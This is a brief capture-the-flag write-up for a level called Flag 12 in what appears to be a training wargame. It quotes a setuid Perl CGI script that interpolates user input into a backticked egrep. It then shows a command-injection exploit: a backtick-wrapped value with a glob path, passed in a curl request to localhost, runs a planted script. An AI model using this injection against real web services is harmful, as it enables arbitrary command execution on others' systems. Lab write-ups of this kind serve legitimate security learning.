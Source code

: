 # Flag 12

```bash
$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

The given Perl script is not really protecting user to send something similar to a command with this code:

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

so we can maybe put a command inside a file and send it:

```bash
$ echo "getflag | wall" > TMP
$ chmod +x TMP
$ curl 'http://localhost:4646/level12.pl?x=`/*/TMP`'
```